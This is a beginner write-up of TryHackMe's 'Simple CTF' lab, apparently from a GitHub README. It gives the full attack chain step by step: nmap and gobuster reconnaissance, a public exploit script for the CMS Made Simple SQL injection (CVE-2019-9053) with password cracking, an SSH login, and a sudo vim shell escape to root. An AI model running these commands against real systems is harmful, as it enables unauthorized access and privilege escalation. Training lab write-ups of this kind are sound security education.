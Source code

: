 # Simple CTF on TryHackMe

🎯 1. Introduction to the CTF

- 🧩 Name: Simple CTF on [TryHackMe](https://tryhackme.com/room/easyctf)
- 🎯 Goal: Practice basic penetration testing workflow:
    - Reconnaissance → Web Enumeration → Exploitation → SSH Access → Privilege Escalation → Get Flags
- Level: Beginner
- Tools Required: Kali Linux, Nmap, Gobuster, Python3, rockyou.txt, common dir wordlists
- TryHackMe Room Link: https://tryhackme.com/room/easyctf


🔍 2. Reconnaissance – Scanning the Target

📌 Step 2.1: Full Port Scan with Nmap

  ```bash
  nmap -p- --open -oN nmap_all.txt $IP
  ```

- p-: scan all 65535 ports
- -open: only show open ports
- oN: output to a file

Result:

Open ports → 21 (FTP), 80 (HTTP), 2222 (SSH - non-default)

📌 Step 2.2: Service and Version Detection

```bash
nmap -p21,80,2222 -sC -sV -oN nmap_detail.txt $IP
```

- sC: run default Nmap scripts (for banners, SSL info, etc.)
- sV: detect service versions

This gives us info like:

- FTP open (anonymous login: disabled)
- Web server running on port 80
- SSH open on port 2222


🌐 3. Web Enumeration – Discovering Hidden Paths

📌 Step 3.1: Directory Brute Force with Gobuster

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- u: target URL
- w: wordlist path

Result:

We find a hidden path → /simple

📌 Step 3.2: Investigate

/simple

- By checking the page and source code, we identify the CMS:
→ CMS Made Simple v2.2.8


💥 4. Exploitation – SQL Injection via CVE‑2019‑9053

📌 Step 4.1: Search for Exploits

- A quick Google search for
CMS Made Simple 2.2.8 exploit → leads to CVE-2019-9053
- It’s an unauthenticated blind SQL injection vulnerability

📌 Step 4.2: Run Exploit Script

We use a public PoC from [Exploit-DB](https://www.exploit-db.com/exploits/46635)

```bash
python3 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
```

- u: base URL to the vulnerable CMS
- -crack: attempt to crack the password hash
- w: specify a wordlist (rockyou.txt)

Result:

```notion
[+] Username: mitch
[+] Password: secret
```


🔐 5. SSH Access – Logging into the Box

```bash
ssh mitch@$IP -p 2222
```

- Use credentials: mitch / secret
- Successfully drops us into a shell as user mitch

📌 Step 5.1: Capture User Flag

```bash
cat user.txt
```

🟢 User Flag Found! Example:

```bash
flag{thm_user_flag_example}
```


🧨 6. Privilege Escalation – Gaining Root Access

📌 Step 6.1: Check sudo permissions

```bash
sudo -l
```

Result:

```bash
User mitch may run the following command on this host:
    (ALL) NOPASSWD: /usr/bin/vim
```

This means we can run vim as root without a password — classic misconfiguration.

📌 Step 6.2: Exploit vim to get root shell

```bash
sudo vim -c ':!/bin/bash'
```

- :! tells vim to run a shell command
- Since we’re running it with sudo, this opens a root shell

```bash
whoami
# root ✅
```

📌 Step 6.3: Read the Root Flag**

```bash
cat /root/root.txt
```

🟢 Root Flag Found! Example:

```bash
flag{thm_root_flag_example}
```


🏁 7. mmary of Flags* 
User: flag{thm_user_flag_example}
Root: lag{thm_root_flag_example}
